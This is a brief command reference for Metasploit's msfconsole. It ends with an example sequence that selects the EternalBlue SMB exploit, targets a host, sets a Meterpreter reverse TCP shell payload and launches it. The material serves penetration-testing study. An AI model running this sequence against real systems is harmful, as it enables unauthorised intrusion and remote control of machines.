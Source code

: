 ### `msfconsole` — Metasploit Framework's interactive console.

**Default Usage** 
	`msfconsole` - Launch the interactive console

**OPTIONS**

- `help` = Display help information
- `search [TERM]` = Search for modules or payloads
- `use [MODULE_PATH]` = Select a module for exploitation
- `show [OPTION]` = Show information about modules, payloads, exploits, etc.
- `set [OPTION] [VALUE]` = Set options for the selected module
- `unset [OPTION]` = Unset options for the selected module
- `exploit` = Execute the selected exploit module
- `payload [PAYLOAD_NAME]` = Choose a payload for exploitation
- `options` = Show current options for the selected module
- `run` = Execute the selected module with provided options
- `info [MODULE_PATH]` = Display detailed information about a module
- `exit` or `quit` = Exit the console

**Example Usage**

- `search eternalblue` - Search for modules related to EternalBlue exploit
- `use exploit/windows/smb/ms17_010_eternalblue` - Select the EternalBlue exploit module
- `set RHOSTS 192.168.1.10` - Set the target host IP address
- `set PAYLOAD windows/meterpreter/reverse_tcp` - Set the payload to a reverse TCP Meterpreter shell
- `exploit` - Execute the exploit with the selected options
- `sessions -i 1` - Interact with session 1 after successful exploitation